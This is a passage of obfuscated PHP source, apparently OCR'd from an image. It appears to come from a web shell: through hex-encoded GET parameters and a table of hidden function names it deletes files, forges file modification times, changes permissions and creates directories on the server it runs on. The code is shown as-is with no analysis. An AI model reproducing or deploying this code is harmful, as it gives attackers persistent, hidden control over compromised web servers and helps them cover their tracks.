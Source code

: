 					elseif(isset($_GET["x"])) {
						rec(uhex($_GET["x"]));
						if($GNJ[26](uhex($_GET["x"]))) {
							ER();
						}
						else {
							OK();
						}

					}
					elseif(isset($_GET["t"])) {
						echo $a_.uhex($_GET["t"]).$b_.'
									<form action="" method="post">
										<input name="t" class="x" type="text" value="'.$GNJ[20]("Y-m-d H:i", $GNJ[21](uhex($_GET["t"]))).'">
										'.$d_.'
								'.$c_;
					if( !empty($_POST["t"]) ) {
						$p = $GNJ[33]($_POST["t"]);
						if($p) {
							if(!$GNJ[25](uhex($_GET["t"]),$p,$p)) {
								ER();
							}
							else {
								OK();
							}
						}
						else {
							ER();
						}
					  }
					}
					elseif(isset($_GET["k"])) {
						echo $a_.uhex($_GET["k"]).$b_.'
									<form action="" method="post">
										<input name="b" class="x" type="text" value="'.$GNJ[22]($GNJ[23]('%o', $GNJ[24](uhex($_GET["k"]))), -4).'">
										'.$d_.'
								'.$c_;
					if(!empty($_POST["b"])) {
						$x = $_POST["b"];
						$t = 0;
					for($i=strlen($x)-1;$i>=0;--$i)
						$t += (int)$x[$i]*pow(8, (strlen($x)-$i-1));
					if(!$GNJ[12](uhex($_GET["k"]), $t)) {
						ER();
					}
					else {
						OK();
						  }
						}
					}
					elseif(isset($_GET["l"])) {
						echo $a_.'+DIR'.$b_.'
									<form action="" method="post">
										<input name="l" class="x" type="text" value="">
										'.$d_.'
								'.$c_;
					if(isset($_POST["l"])) {
						if(!$GNJ[11]($_POST["l"])) {
							ER();
						}
						else {
							OK();